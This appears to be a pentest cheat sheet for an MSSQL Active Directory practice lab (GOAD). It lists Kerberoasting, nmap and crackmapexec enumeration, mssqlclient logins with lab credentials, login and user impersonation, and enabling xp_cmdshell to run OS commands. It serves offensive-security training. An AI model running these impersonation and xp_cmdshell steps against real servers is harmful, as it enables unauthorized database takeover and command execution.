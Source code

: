 
# MSSQL
## Enumeration
```
GetUserSPNs.py -target-domain essos.local north.sevenkingdoms.local/brandon.stark:iseedeadpeople
nmap -p 1433 -sV -sC 192.168.56.10-23
crackmapexec mssql 192.168.56.22-23

crackmapexec mssql 192.168.56.22 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local
```

## Connect to mssql
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/samwell.tarly:Heartsbane@castelblack.north.sevenkingdoms.local

# Enumerate user of server 
enum_logins

# Enumerate user of database
enum_users

## Enumerate login with impersonation permission
enum_impersonate

## Impersonation
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami

## Enumerate as login sa
enum_logins
enum_impersonate

## Impersonate - execute as user
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
use master
execute as user = "dbo"
exec master..xp_cmdshell 'whoami'

```

By executing as user, the database should have trustworthy property set in order to run shell. In order to enumerate trustworthy property in database run:
`enum_db`

```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
use msdb
exec_as_user dbo
enable_xp_cmdshell
xp_cmdshell whoami
```
